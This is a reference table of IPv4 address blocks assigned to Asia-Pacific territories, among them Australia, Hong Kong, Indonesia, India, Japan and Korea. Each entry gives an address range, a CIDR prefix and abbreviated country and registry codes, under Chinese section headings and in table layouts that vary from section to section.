| 202.14.66.0–202.14.66.255  202.14.66/24  U  PNIC | 202.14.223.0–202.14.223.255  202.14.223/24  U  PNIC |
| 202.14.76.0–202.14.79.255  202.14.76/22  U  PNIC | 202.14.229.0–202.14.229.255  202.14.229/24  U  PNIC |
| 202.14.81.0–202.14.81.255  202.14.81/24  U  PNIC | 202.14.230.0–202.14.231.255  202.14.230/23  U  PNIC |
| 202.14.89.0–202.14.89.255  202.14.89/24  U  PNIC | 202.14.232.0–202.14.233.255  202.14.232/23  U  PNIC |
| 202.14.95.0–202.14.95.255  202.14.95/24  U  PNIC | 202.14.234.0–202.14.234.255  202.14.234/24  U  PNIC |
| 202.14.101.0–202.14.101.255  202.14.101/24  U  PNIC | 202.14.239.0–202.14.239.255  202.14.239/24  U  PNIC |
| 202.14.104.0–202.14.105.255  202.14.104/23  U  PNIC | 202.14.240.0–202.14.247.255  202.14.240/21  U  PNIC |
| 202.14.110.0–202.14.111.255  202.14.110/23  U  PNIC | 202.14.248.0–202.14.251.255  202.14.248/22  U  PNIC |
| 202.14.112.0–202.14.113.255  202.14.112/23  U  PNIC | 202.20.8.0–202.20.15.255  202.20.8/21  U  PNIC |

| IP段范围A | CIDR/机构A | IP段范围B | CIDR/机构B |
|---|---|---|---|
| 202.20.16.0–202.20.31.255 | 202.20.16/20 U PNIC | 202.160.128.0–202.160.159.255 | 202.160.128/19 U PNIC |
| 202.20.69.0–202.20.69.255 | 202.20.69/24 U PNIC | 202.161.0.0–202.161.127.255 | 202.161.0/17 U PNIC |
| 202.20.70.0–202.20.71.255 | 202.20.70/23 U PNIC | 202.163.128.0–202.163.159.255 | 202.163.128/19 U PNIC |
| 202.20.72.0–202.20.75.255 | 202.20.72/22 U PNIC | 202.164.224.0–202.164.255.255 | 202.164.224/19 U PNIC |
| 202.20.81.0–202.20.81.255 | 202.20.81/24 U PNIC | 202.165.0.0–202.165.127.255 | 202.165.0/17 U PNIC |
| 202.21.8.0–202.21.15.255 | 202.21.8/21 U PNIC | 202.165.128.0–202.165.159.255 | 202.165.128/19 U PNIC |
| 202.46.32.0–202.46.63.255 | 202.46.32/19 U PNIC | 202.168.96.0–202.168.127.255 | 202.168.96/19 U PNIC |
| 202.47.32.0–202.47.63.255 | 202.47.32/19 U PNIC | 202.168.128.0–202.168.159.255 | 202.168.128/19 U PNIC |
| 202.53.32.0–202.53.63.255 | 202.53.32/19 U PNIC | 202.177.64.0–202.177.95.255 | 202.177.64/19 U PNIC |
| 202.56.32.0–202.56.63.255 | 202.56.32/19 U PNIC | 202.179.224.0–202.179.255.255 | 202.179.224/19 U PNIC |
| 202.58.32.0–202.58.63.255 | 202.58.32/19 U PNIC | 202.180.224.0–202.180.255.255 | 202.180.224/19 U PNIC |
| 202.59.32.0–202.59.63.255 | 202.59.32/19 U PNIC | 202.181.0.0–202.181.31.255 | 202.181.0/19 U PNIC |
| 202.61.160.0–202.61.191.255 | 202.61.160/19 U PNIC | 202.182.64.0–202.182.95.255 | 202.182.64/19 U PNIC |
| 202.61.192.0–202.61.255.255 | 202.61.192/18 U PNIC | 203.0.0.0–203.63.255.255 | 203.0/10 U PNIC |
| 202.62.128.0–202.62.159.255 | 202.62.128/19 U PNIC | 203.76.0.0–203.76.63.255 | 203.76.0/18 U PNIC |
| 202.65.64.0–202.65.95.255 | 202.65.64/19 U PNIC | 203.76.64.0–203.76.95.255 | 203.76.64/19 U PNIC |
| 202.67.64.0–202.67.127.255 | 202.67.64/18 U PNIC | 203.76.224.0–203.76.255.255 | 203.76.224/19 U PNIC |
| 202.71.64.0–202.71.95.255 | 202.71.64/19 U PNIC | 203.83.128.0–203.83.159.255 | 203.83.128/19 U PNIC |
| 202.72.128.0–202.72.191.255 | 202.72.128/18 U PNIC | 203.87.0.0–203.87.63.255 | 203.87.0/18 U PNIC |
| 202.74.128.0–202.74.159.255 | 202.74.128/19 U PNIC | 203.87.64.0–203.87.95.255 | 203.87.64/19 U PNIC |
| 202.76.128.0–202.76.159.255 | 202.76.128/19 U PNIC | 203.88.64.0–203.88.127.255 | 203.88.64/18 U PNIC |
| 202.80.64.0–202.80.95.255 | 202.80.64/19 U PNIC | 203.88.128.0–203.88.255.255 | 203.88.128/17 U PNIC |
| 202.81.64.0–202.81.127.255 | 202.81.64/18 U PNIC | 203.89.192.0–203.89.255.255 | 203.89.192/18 U PNIC |
| 202.81.128.0–202.81.159.255 | 202.81.128/19 U PNIC | 203.91.64.0–203.91.127.255 | 203.91.64/18 U PNIC |
| 202.83.64.0–202.83.127.255 | 202.83.64/18 U PNIC | 203.91.128.0–203.91.255.255 | 203.91.128/17 U PNIC |
| 202.92.64.0–202.92.127.255 | 202.92.64/18 U PNIC | 203.92.224.0–203.92.255.255 | 203.92.224/19 U PNIC |
| 202.137.64.0–202.137.95.255 | 202.137.64/19 U PNIC | 203.100.0.0–203.103.255.255 | 203.100/14 U PNIC |
| 202.138.0.0–202.138.63.255 | 202.138.0/18 U PNIC | 203.104.0.0–203.104.31.255 | 203.104.0/19 U PNIC |
| 202.139.0.0–202.139.127.255 | 202.139.0/17 U PNIC | 203.108.0.0–203.108.255.255 | 203.108/16 U PNIC |
| 202.139.224.0–202.139.255.255 | 202.139.224/19 U PNIC | 203.110.128.0–203.110.255.255 | 203.110.128/17 U PNIC |
| 202.140.224.0–202.140.255.255 | 202.140.224/19 U PNIC | 203.111.0.0–203.111.255.255 | 203.111/16 U PNIC |
| 202.143.64.0–202.143.95.255 | 202.143.64/19 U PNIC | 203.131.0.0–203.131.63.255 | 203.131.0/18 U PNIC |
| 202.147.0.0–202.147.127.255 | 202.147.0/17 U PNIC | 203.132.0.0–203.132.255.255 | 203.132/16 U PNIC |
| 202.147.128.0–202.147.159.255 | 202.147.128/19 U PNIC | 203.134.0.0–203.134.127.255 | 203.134.0/17 U PNIC |
| 202.148.64.0–202.148.95.255 | 202.148.64/19 U PNIC | 203.142.224.0–203.142.255.255 | 203.142.224/19 U PNIC |
| 202.148.192.0–202.148.223.255 | 202.148.192/19 U PNIC | 203.143.224.0–203.143.255.255 | 203.143.224/19 U PNIC |
| 203.144.0.0–203.144.31.255 | 203.144.0/19 U PNIC |  |  |
| 203.147.160.0–203.147.191.255 | 203.147.160/19 U PNIC |  |  |
| 203.147.192.0–203.147.255.255 | 203.147.192/18 U PNIC |  |  |
| 203.152.224.0–203.152.255.255 | 203.152.224/19 U PNIC |  |  |
| 203.153.224.0–203.153.255.255 | 203.153.224/19 U PNIC |  |  |
| 203.164.0.0–203.164.63.255 | 203.164.0/18 U PNIC |  |  |
| 203.164.64.0–203.164.95.255 | 203.164.64/19 U PNIC |  |  |
| 203.166.0.0–203.166.255.255 | 203.166/16 U PNIC |  |  |
| 203.173.0.0–203.173.127.255 | 203.173.0/17 U PNIC |  |  |
| 203.174.128.0–203.174.255.255 | 203.174.128/17 U PNIC |  |  |
| 210.0.0.0–210.0.31.255 | 210.0.0/19 U PNIC |  |  |
| 210.8.0.0–210.11.255.255 | 210.8/14 U PNIC |  |  |
| 210.15.192.0–210.15.255.255 | 210.15.192/18 U PNIC |  |  |
| 210.84.0.0–210.84.255.255 | 210.84/16 U PNIC |  |  |
| 210.215.0.0–210.215.63.255 | 210.215.0/18 U PNIC |  |  |

### BD

| IP段范围 | CIDR/机构 |
|---|---|
| 202.4.96.0–202.4.127.255 | 202.4.96/19 D PNIC |
| 202.5.32.0–202.5.63.255 | 202.5.32/19 D PNIC |
| 202.168.224.0–202.168.255.255 | 202.168.224/19 D PNIC |
| 203.188.128.0–203.188.255.255 | 203.188.128/17 D PNIC |
| 203.189.0.0–203.189.255.255 | 203.189/16 D PNIC |
| 203.190.0.0–203.191.255.255 | 203.190/15 D PNIC |

### 文莱

| IP段范围 | CIDR/机构 |
|---|---|
| 202.12.26.0–202.12.26.255 | 202.12.26/24 N PNIC |
| 202.160.0.0–202.160.63.255 | 202.160.0/18 N PNIC |

### 不丹

| IP段范围 | CIDR/机构 |
|---|---|
| 202.144.128.0–202.144.159.255 | 202.144.128/19 T PNIC |

### 斐济

| IP段范围 | CIDR/机构 |
|---|---|
| 202.62.0.0–202.62.127.255 | 202.62.0/17 J PNIC |
| 202.62.224.0–202.62.255.255 | 202.62.224/19 J PNIC |

### 关岛（美国）

| IP段范围 | CIDR/机构 |
|---|---|
| 202.20.112.0–202.20.112.255 | 202.20.112/24 U PNIC |
| 202.128.0.0–202.128.63.255 | 202.128.0/18 U PNIC |
| 202.128.64.0–202.128.95.255 | 202.128.64/19 U PNIC |

### 香港

| IP段范围 | CIDR/机构 |
|---|---|
| 61.10.0.0–61.10.63.255 | 61.10.0/18 K PNIC |
| 202.0.77.0–202.0.77.255 | 202.0.77/24 K PNIC |
| 202.0.78.0–202.0.78.255 | 202.0.78/24 K PNIC |
| 202.0.100.0–202.0.100.255 | 202.0.100/24 K PNIC |
| 202.0.104.0–202.0.104.255 | 202.0.104/24 K PNIC |
| 202.0.112.0–202.0.112.255 | 202.0.112/24 K PNIC |
| 202.0.122.0–202.0.123.255 | 202.0.122/23 K PNIC |
| 202.0.128.0–202.0.143.255 | 202.0.128/20 K PNIC |
| 202.0.144.0–202.0.147.255 | 202.0.144/22 K PNIC |
| 202.0.180.0–202.0.183.255 | 202.0.180/22 K PNIC |
| 202.1.6.0–202.1.7.255 | 202.1.6/23 K PNIC |
| 202.2.32.0–202.2.47.255 | 202.2.32/20 K PNIC |

# 附录

### 香港

| 左列 | 右列 |
|---|---|
| 202.2.48.0–202.2.51.255  202.2.48/22  K  PNIC | 202.67.128.0–202.67.255.255  202.67.128/17  K  PNIC |
| 202.2.64.0–202.2.95.255  202.2.64/19  K  PNIC | 202.68.0.0–202.68.127.255  202.68.0/17  K  PNIC |
| 202.4.26.0–202.4.27.255  202.4.26/23  K  PNIC | 202.68.192.0–202.68.255.255  202.68.192/18  K  PNIC |
| 202.4.192.0–202.4.223.255  202.4.192/19  K  PNIC | 202.69.0.0–202.69.255.255  202.69/16  K  PNIC |
| 202.6.0.0–202.6.1.255  202.6.0/23  K  PNIC | 202.70.0.0–202.70.63.255  202.70.0/18  K  PNIC |
| 202.7.128.0–202.7.159.255  202.7.128/19  K  PNIC | 202.70.127.0–202.70.127.255  202.70.127/24  K  PNIC |
| 202.12.4.0–202.12.7.255  202.12.4/22  K  PNIC | 202.70.128.0–202.70.255.255  202.70.128/17  K  PNIC |
| 202.14.67.0–202.14.67.255  202.14.67/24  K  PNIC | 202.71.0.0–202.71.63.255  202.71.0/18  K  PNIC |
| 202.14.68.0–202.14.68.255  202.14.68/24  K  PNIC | 202.71.160.0–202.71.191.255  202.71.160/19  K  PNIC |
| 202.14.80.0–202.14.80.255  202.14.80/24  K  PNIC | 202.71.192.0–202.71.255.255  202.71.192/18  K  PNIC |
| 202.14.222.0–202.14.222.255  202.14.222/24  K  PNIC | 202.72.0.0–202.72.127.255  202.72.0/17  K  PNIC |
| 202.20.66.0–202.20.66.255  202.20.66/24  K  PNIC | 202.72.192.0–202.72.255.255  202.72.192/18  K  PNIC |
| 202.20.88.0–202.20.89.255  202.20.88/23  K  PNIC | 202.73.0.0–202.73.255.255  202.73/16  K  PNIC |
| 202.20.94.0–202.20.95.255  202.20.94/23  K  PNIC | 202.74.0.0–202.74.31.255  202.74.0/19  K  PNIC |
| 202.20.98.0–202.20.98.255  202.20.98/24  K  PNIC | 202.74.64.0–202.74.127.255  202.74.64/18  K  PNIC |
| 202.20.100.0–202.20.101.255  202.20.100/23  K  PNIC | 202.74.224.0–202.74.255.255  202.74.224/19  K  PNIC |
| 202.20.111.0–202.20.111.255  202.20.111/24  K  PNIC | 202.75.0.0–202.75.63.255  202.75.0/18  K  PNIC |
| 202.20.117.0–202.20.117.255  202.20.117/24  K  PNIC | 202.75.64.0–202.75.95.255  202.75.64/19  K  PNIC |
| 202.20.118.0–202.20.118.255  202.20.118/24  K  PNIC | 202.75.224.0–202.75.255.255  202.75.224/19  K  PNIC |
| 202.20.125.0–202.20.125.255  202.20.125/24  K  PNIC | 202.76.0.0–202.76.127.255  202.76.0/17  K  PNIC |
| 202.20.126.0–202.20.127.255  202.20.126/23  K  PNIC | 202.76.224.0–202.76.255.255  202.76.224/19  K  PNIC |
| 202.21.128.0–202.21.128.255  202.21.128/24  K  PNIC | 202.77.0.0–202.77.255.255  202.77/16  K  PNIC |
| 202.40.0.0–202.40.255.255  202.40/16  K  PNIC | 202.78.0.0–202.78.31.255  202.78.0/19  K  PNIC |
| 202.45.0.0–202.45.255.255  202.45/16  K  PNIC | 202.78.224.0–202.78.255.255  202.78.224/19  K  PNIC |
| 202.52.128.0–202.52.159.255  202.52.128/19  K  PNIC | 202.79.0.0–202.79.31.255  202.79.0/19  K  PNIC |
| 202.53.128.0–202.53.159.255  202.53.128/19  K  PNIC | 202.79.224.0–202.79.255.255  202.79.224/19  K  PNIC |
| 202.57.192.0–202.57.255.255  202.57.192/18  K  PNIC | 202.80.0.0–202.80.31.255  202.80.0/19  K  PNIC |
| 202.60.32.0–202.60.63.255  202.60.32/19  K  PNIC | 202.81.0.0–202.81.63.255  202.81.0/18  K  PNIC |
| 202.60.224.0–202.60.255.255  202.60.224/19  K  PNIC | 202.81.192.0–202.81.255.255  202.81.192/18  K  PNIC |
| 202.63.0.0–202.63.31.255  202.63.0/19  K  PNIC | 202.82.0.0–202.82.255.255  202.82/16  K  PNIC |
| 202.63.128.0–202.63.159.255  202.63.128/19  K  PNIC | 202.83.0.0–202.83.31.255  202.83.0/19  K  PNIC |
| 202.64.0.0–202.64.255.255  202.64/16  K  PNIC | 202.83.192.0–202.83.255.255  202.83.192/18  K  PNIC |
| 202.65.0.0–202.65.31.255  202.65.0/19  K  PNIC | 202.84.0.0–202.85.255.255  202.84/15  K  PNIC |
| 202.65.224.0–202.65.255.255  202.65.224/19  K  PNIC | 202.86.0.0–202.86.127.255  202.86.0/17  K  PNIC |
| 202.66.0.0–202.66.255.255  202.66/16  K  PNIC | 202.86.192.0–202.86.255.255  202.86.192/18  K  PNIC |
| 202.67.0.0–202.67.63.255  202.67.0/18  K  PNIC | 202.87.0.0–202.87.63.255  202.87.0/18  K  PNIC |
| 202.87.64.0–202.87.95.255  202.87.64/19  K  PNIC | 202.181.128.0–202.181.255.255  202.181.128/17  K  PNIC |
| 202.87.160.0–202.87.191.255  202.87.160/19  K  PNIC | 202.182.224.0–202.182.255.255  202.182.224/19  K  PNIC |
| 202.87.192.0–202.87.255.255  202.87.192/18  K  PNIC | 203.76.128.0–203.76.159.255  203.76.128/19  K  PNIC |
| 202.88.0.0–202.88.127.255  202.88.0/17  K  PNIC | 203.77.128.0–203.77.159.255  203.77.128/19  K  PNIC |
| 202.88.192.0–202.88.255.255  202.88.192/18  K  PNIC | 203.78.64.0–203.78.95.255  203.78.64/19  K  PNIC |
| 202.89.0.0–202.89.63.255  202.89.0/18  K  PNIC | 203.80.0.0–203.81.255.255  203.80/15  K  PNIC |
| 202.89.64.0–202.89.95.255  202.89.64/19  K  PNIC | 203.82.0.0–203.82.255.255  203.82/16  K  PNIC |
| 202.89.192.0–202.89.255.255  202.89.192/18  K  PNIC | 203.83.0.0–203.83.127.255  203.83.0/17  K  PNIC |
| 202.91.192.0–202.91.255.255  202.91.192/18  K  PNIC | 203.83.224.0–203.83.255.255  203.83.224/19  K  PNIC |
| 202.92.128.0–202.92.159.255  202.92.128/19  K  PNIC | 203.84.0.0–203.84.127.255  203.84.0/17  K  PNIC |
| 202.122.64.0–202.122.127.255  202.122.64/18  K  PNIC | 203.84.128.0–203.84.191.255  203.84.128/18  K  PNIC |
| 202.122.192.0–202.122.223.255  202.122.192/19  K  PNIC | 203.85.0.0–203.85.255.255  203.85/16  K  PNIC |
| 202.128.128.0–202.128.255.255  202.128.128/17  K  PNIC | 203.86.0.0–203.86.255.255  203.86/16  K  PNIC |
| 202.130.64.0–202.130.127.255  202.130.64/18  K  PNIC | 203.90.224.0–203.90.255.255  203.90.224/19  K  PNIC |
| 202.130.128.0–202.130.191.255  202.130.128/18  K  PNIC | 203.105.0.0–203.105.63.255  203.105.0/18  K  PNIC |
| 202.134.64.0–202.134.95.255  202.134.64/19  K  PNIC | 203.131.224.0–203.131.255.255  203.131.224/19  K  PNIC |
| 202.140.64.0–202.140.127.255  202.140.64/18  K  PNIC | 203.161.224.0–203.161.255.255  203.161.224/19  K  PNIC |
| 202.144.224.0–202.144.255.255  202.144.224/19  K  PNIC | 203.169.128.0–203.169.159.255  203.169.128/19  K  PNIC |
| 202.146.96.0–202.146.127.255  202.146.96/19  K  PNIC | 203.184.128.0–203.184.255.255  203.184.128/17  K  PNIC |
| 202.161.224.0–202.161.255.255  202.161.224/19  K  PNIC | 203.185.0.0–203.185.63.255  203.185.0/18  K  PNIC |
| 202.163.0.0–202.163.31.255  202.163.0/19  K  PNIC | 203.186.0.0–203.186.255.255  203.186/16  K  PNIC |
| 202.169.0.0–202.169.31.255  202.169.0/19  K  PNIC | 203.198.0.0–203.198.255.255  203.198/16  K  PNIC |
| 202.170.0.0–202.170.31.255  202.170.0/19  K  PNIC | 210.87.248.0–210.87.255.255  210.87.248/21  K  PNIC |
| 202.177.0.0–202.177.31.255  202.177.0/19  K  PNIC | 210.176.0.0–210.177.255.255  210.176/15  K  PNIC |
| 202.181.32.0–202.181.63.255  202.181.32/19  K  PNIC | 210.184.0.0–210.184.63.255  210.184.0/18  K  PNIC |
| 202.181.64.0–202.181.127.255  202.181.64/18  K  PNIC | 210.184.64.0–210.184.95.255  210.184.64/19  K  PNIC |

### 印度尼西亚

| 左列 | 右列 |
|---|---|
| 202.0.81.0–202.0.81.255  202.0.81/24  D  PNIC | 202.46.128.0–202.46.131.255  202.46.128/22  D  PNIC |
| 202.0.103.0–202.0.103.255  202.0.103/24  D  PNIC | 202.46.192.0–202.46.255.255  202.46.192/18  D  PNIC |
| 202.0.116.0–202.0.116.255  202.0.116/24  D  PNIC | 202.51.192.0–202.51.255.255  202.51.192/18  D  PNIC |
| 202.3.96.0–202.3.127.255  202.3.96/19  D  PNIC | 202.53.224.0–202.53.255.255  202.53.224/19  D  PNIC |
| 202.20.108.0–202.20.109.255  202.20.108/23  D  PNIC | 202.95.128.0–202.95.159.255  202.95.128/19  D  PNIC |
| 202.43.224.0–202.43.255.255  202.43.224/19  D  PNIC | 202.137.0.0–202.137.31.255  202.137.0/19  D  PNIC |
| 202.46.0.0–202.46.31.255  202.46.0/19  D  PNIC | 202.138.224.0–202.138.255.255  202.138.224/19  D  PNIC |
| 202.46.64.0–202.46.127.255  202.46.64/18  D  PNIC | 202.145.0.0–202.145.31.255  202.145.0/19  D  PNIC |

| 网段范围 | CIDR | 类型 | 注册机构 | 网段范围 | CIDR | 类型 | 注册机构 |
|---|---|---|---|---|---|---|---|
| 202.146.0.0–202.146.63.255 | 202.146.0/18 | D | PNIC | 202.164.0.0–202.164.31.255 | 202.164.0/19 | D | PNIC |
| 202.146.128.0–202.146.255.255 | 202.146.128/17 | D | PNIC | 202.170.224.0–202.170.255.255 | 202.170.224/19 | D | PNIC |
| 202.147.224.0–202.147.255.255 | 202.147.224/19 | D | PNIC | 202.173.64.0–202.173.95.255 | 202.173.64/19 | D | PNIC |
| 202.148.0.0–202.148.63.255 | 202.148.0/18 | D | PNIC | 202.180.0.0–202.180.31.255 | 202.180.0/19 | D | PNIC |
| 202.149.0.0–202.149.255.255 | 202.149/16 | D | PNIC | 202.183.0.0–202.183.31.255 | 202.183.0/19 | D | PNIC |
| 202.150.0.0–202.151.255.255 | 202.150/15 | D | PNIC | 203.77.224.0–203.77.255.255 | 203.77.224/19 | D | PNIC |
| 202.152.0.0–202.152.255.255 | 202.152/16 | D | PNIC | 203.109.0.0–203.109.31.255 | 203.109.0/19 | D | PNIC |
| 202.154.0.0–202.155.255.255 | 202.154/15 | D | PNIC | 203.130.192.0–203.130.255.255 | 203.130.192/18 | D | PNIC |
| 202.157.0.0–202.157.63.255 | 202.157.0/18 | D | PNIC | 203.153.0.0–203.153.127.255 | 203.153.0/17 | D | PNIC |
| 202.157.96.0–202.157.127.255 | 202.157.96/19 | D | PNIC | 203.153.128.0–203.153.191.255 | 203.153.128/18 | D | PNIC |
| 202.158.0.0–202.159.255.255 | 202.158/15 | D | PNIC | 203.153.192.0–203.153.223.255 | 203.153.192/19 | D | PNIC |

### 印度

| 网段范围 | CIDR | 类型 | 注册机构 | 网段范围 | CIDR | 类型 | 注册机构 |
|---|---|---|---|---|---|---|---|
| 61.0.0.0–61.3.255.255 | 61.0/14 | N | PNIC | 202.131.96.0–202.131.127.255 | 202.131.96/19 | N | PNIC |
| 61.11.0.0–61.11.127.255 | 61.11.0/17 | N | PNIC | 202.131.128.0–202.131.159.255 | 202.131.128/19 | N | PNIC |
| 202.4.160.0–202.4.191.255 | 202.4.160/19 | N | PNIC | 202.134.128.0–202.134.159.255 | 202.134.128/19 | N | PNIC |
| 202.9.128.0–202.9.191.255 | 202.9.128/18 | N | PNIC | 202.136.128.0–202.136.159.255 | 202.136.128/19 | N | PNIC |
| 202.21.147.0–202.21.147.255 | 202.21.147/24 | N | PNIC | 202.140.128.0–202.140.159.255 | 202.140.128/19 | N | PNIC |
| 202.41.0.0–202.41.255.255 | 202.41/16 | N | PNIC | 202.141.0.0–202.141.255.255 | 202.141/16 | N | PNIC |
| 202.43.32.0–202.43.63.255 | 202.43.32/19 | N | PNIC | 202.142.0.0–202.142.255.255 | 202.142/16 | N | PNIC |
| 202.51.32.0–202.51.63.255 | 202.51.32/19 | N | PNIC | 202.143.0.0–202.143.31.255 | 202.143.0/19 | N | PNIC |
| 202.52.32.0–202.52.63.255 | 202.52.32/19 | N | PNIC | 202.143.224.0–202.143.255.255 | 202.143.224/19 | N | PNIC |
| 202.53.64.0–202.53.95.255 | 202.53.64/19 | N | PNIC | 202.144.0.0–202.144.127.255 | 202.144.0/17 | N | PNIC |
| 202.54.0.0–202.55.255.255 | 202.54/15 | N | PNIC | 202.144.160.0–202.144.191.255 | 202.144.160/19 | N | PNIC |
| 202.56.0.0–202.56.31.255 | 202.56.0/19 | N | PNIC | 202.157.64.0–202.157.95.255 | 202.157.64/19 | N | PNIC |
| 202.56.192.0–202.56.255.255 | 202.56.192/18 | N | PNIC | 202.162.128.0–202.162.255.255 | 202.162.128/17 | N | PNIC |
| 202.57.0.0–202.57.31.255 | 202.57.0/19 | N | PNIC | 202.164.96.0–202.164.127.255 | 202.164.96/19 | N | PNIC |
| 202.60.128.0–202.60.159.255 | 202.60.128/19 | N | PNIC | 202.169.128.0–202.169.159.255 | 202.169.128/19 | N | PNIC |
| 202.63.96.0–202.63.127.255 | 202.63.96/19 | N | PNIC | 202.170.128.0–202.170.159.255 | 202.170.128/19 | N | PNIC |
| 202.65.128.0–202.65.159.255 | 202.65.128/19 | N | PNIC | 202.177.128.0–202.177.255.255 | 202.177.128/17 | N | PNIC |
| 202.68.128.0–202.68.191.255 | 202.68.128/18 | N | PNIC | 202.179.64.0–202.179.95.255 | 202.179.64/19 | N | PNIC |
| 202.71.128.0–202.71.159.255 | 202.71.128/19 | N | PNIC | 203.94.224.0–203.94.255.255 | 203.94.224/19 | N | PNIC |
| 202.86.128.0–202.86.191.255 | 202.86.128/18 | N | PNIC | 203.112.128.0–203.112.159.255 | 203.112.128/19 | N | PNIC |
| 202.88.128.0–202.88.191.255 | 202.88.128/18 | N | PNIC | 203.129.224.0–203.129.255.255 | 203.129.224/19 | N | PNIC |
| 202.91.64.0–202.91.127.255 | 202.91.64/18 | N | PNIC | 203.148.0.0–203.148.31.255 | 203.148.0/19 | N | PNIC |

# 附录

### 印度

| 地址范围 | CIDR | 类型 | 机构 | 地址范围 | CIDR | 类型 | 机构 |
|---|---|---|---|---|---|---|---|
| 203.197.0.0–203.197.255.255 | 203.197/16 | N | PNIC | 210.214.0.0–210.214.127.255 | 210.214.0/17 | N | PNIC |
| 210.212.0.0–210.212.255.255 | 210.212/16 | N | PNIC |  |  |  |  |

### 日本

| 地址范围 | CIDR | 类型 | 机构 | 地址范围 | CIDR | 类型 | 机构 |
|---|---|---|---|---|---|---|---|
| 202.0.65.0–202.0.65.255 | 202.0.65/24 | P | PNIC | 202.48.0.0–202.48.255.255 | 202.48/16 | P | PNIC |
| 202.0.66.0–202.0.66.255 | 202.0.66/24 | P | PNIC | 202.83.128.0–202.83.191.255 | 202.83.128/18 | P | PNIC |
| 202.0.72.0–202.0.73.255 | 202.0.72/23 | P | PNIC | 202.139.192.0–202.139.207.255 | 202.139.192/20 | P | PNIC |
| 202.0.76.0–202.0.76.255 | 202.0.76/24 | P | PNIC | 202.140.0.0–202.140.31.255 | 202.140.0/19 | P | PNIC |
| 202.0.93.0–202.0.93.255 | 202.0.93/24 | P | PNIC | 202.176.0.32–202.176.0.63 | 202.176.0.32/27 | P | PNIC |
| 202.6.98.0–202.6.98.255 | 202.6.98/24 | P | PNIC | 202.176.0.64–202.176.0.127 | 202.176.0.64/26 | P | PNIC |
| 202.6.103.0–202.6.103.255 | 202.6.103/24 | P | PNIC | 202.176.0.128–202.176.0.255 | 202.176.0.128/25 | P | PNIC |
| 202.11.0.0–202.11.255.255 | 202.11/16 | P | PNIC | 202.176.1.0–202.176.1.255 | 202.176.1/24 | P | PNIC |
| 202.12.8.0–202.12.15.255 | 202.12.8/21 | P | PNIC | 202.176.2.0–202.176.3.255 | 202.176.2/23 | P | PNIC |
| 202.13.0.0–202.13.127.255 | 202.13.0/17 | P | PNIC | 202.208.0.0–202.223.255.255 | 202.208/12 | P | PNIC |
| 202.13.128.0–202.13.191.255 | 202.13.128/18 | P | PNIC | 202.224.0.0–202.255.255.255 | 202.224/11 | P | PNIC |
| 202.13.192.0–202.13.223.255 | 202.13.192/19 | P | PNIC | 203.104.128.0–203.104.159.255 | 203.104.128/19 | P | PNIC |
| 202.13.224.0–202.13.239.255 | 202.13.224/20 | P | PNIC | 203.136.0.0–203.139.255.255 | 203.136/14 | P | PNIC |
| 202.13.240.0–202.13.247.255 | 202.13.240/21 | P | PNIC | 203.140.0.0–203.141.255.255 | 203.140/15 | P | PNIC |
| 202.13.248.0–202.13.251.255 | 202.13.248/22 | P | PNIC | 203.165.0.0–203.165.127.255 | 203.165.0/17 | P | PNIC |
| 202.13.252.0–202.13.253.255 | 202.13.252/23 | P | PNIC | 203.178.0.0–203.179.255.255 | 203.178/15 | P | PNIC |
| 202.13.254.0–202.13.254.255 | 202.13.254/24 | P | PNIC | 203.180.0.0–203.183.255.255 | 203.180/14 | P | PNIC |
| 202.15.0.0–202.15.255.255 | 202.15/16 | P | PNIC | 203.216.0.0–203.216.255.255 | 203.216/16 | P | PNIC |
| 202.16.0.0–202.19.255.255 | 202.16/14 | P | PNIC | 210.2.0.0–210.2.255.255 | 210.2/16 | P | PNIC |
| 202.20.90.0–202.20.90.255 | 202.20.90/24 | P | PNIC | 210.81.0.0–210.81.63.255 | 210.81.0/18 | P | PNIC |
| 202.20.110.0–202.20.110.255 | 202.20.110/24 | P | PNIC | 210.88.0.0–210.88.127.255 | 210.88.0/17 | P | PNIC |
| 202.20.123.0–202.20.123.255 | 202.20.123/24 | P | PNIC | 210.88.128.0–210.88.191.255 | 210.88.128/18 | P | PNIC |
| 202.20.124.0–202.20.124.255 | 202.20.124/24 | P | PNIC | 210.128.0.0–210.159.255.255 | 210.128/11 | P | PNIC |
| 202.21.112.0–202.21.127.255 | 202.21.112/20 | P | PNIC | 210.160.0.0–210.175.255.255 | 210.160/12 | P | PNIC |
| 202.21.150.0–202.21.151.255 | 202.21.150/23 | P | PNIC | 210.188.0.0–210.191.255.255 | 210.188/14 | P | PNIC |
| 202.21.152.0–202.21.153.255 | 202.21.152/23 | P | PNIC | 210.196.0.0–210.199.255.255 | 210.196/14 | P | PNIC |
| 202.22.64.0–202.22.127.255 | 202.22.64/18 | P | PNIC | 210.224.0.0–210.239.255.255 | 210.224/12 | P | PNIC |
| 202.23.0.0–202.23.255.255 | 202.23/16 | P | PNIC | 210.248.0.0–210.255.255.255 | 210.248/13 | P | PNIC |
| 202.24.0.0–202.25.255.255 | 202.24/15 | P | PNIC | 211.0.0.0–211.15.255.255 | 211.0/12 | P | PNIC |
| 202.26.0.0–202.26.255.255 | 202.26/16 | P | PNIC | 211.16.0.0–211.19.255.255 | 211.16/14 | P | PNIC |
| 202.32.0.0–202.35.255.255 | 202.32/14 | P | PNIC |  |  |  |  |

### 韩国

| 地址段1 | 前缀/属性 | 地址段2 | 前缀/属性 |
|---|---|---|---|
| 202.6.95.0–202.6.95.255 | 202.6.95/24 R PNIC | 202.30.0.0–202.31.255.255 | 202.30/15 R PNIC |
| 202.14.103.0–202.14.103.255 | 202.14.103/24 R PNIC | 203.224.0.0–203.255.255.255 | 203.224/11 R PNIC |
| 202.14.165.0–202.14.165.255 | 202.14.165/24 R PNIC | 210.90.0.0–210.91.255.255 | 210.90/15 R PNIC |
| 202.20.82.0–202.20.83.255 | 202.20.82/23 R PNIC | 210.92.0.0–210.95.255.255 | 210.92/14 R PNIC |
| 202.20.84.0–202.20.85.255 | 202.20.84/23 R PNIC | 210.96.0.0–210.127.255.255 | 210.96/11 R PNIC |
| 202.20.86.0–202.20.86.255 | 202.20.86/24 R PNIC | 210.178.0.0–210.179.255.255 | 210.178/15 R PNIC |
| 202.20.99.0–202.20.99.255 | 202.20.99/24 R PNIC | 210.180.0.0–210.183.255.255 | 210.180/14 R PNIC |
| 202.20.119.0–202.20.119.255 | 202.20.119/24 R PNIC | 210.204.0.0–210.207.255.255 | 210.204/14 R PNIC |
| 202.20.128.0–202.20.255.255 | 202.20.128/17 R PNIC | 210.216.0.0–210.223.255.255 | 210.216/13 R PNIC |
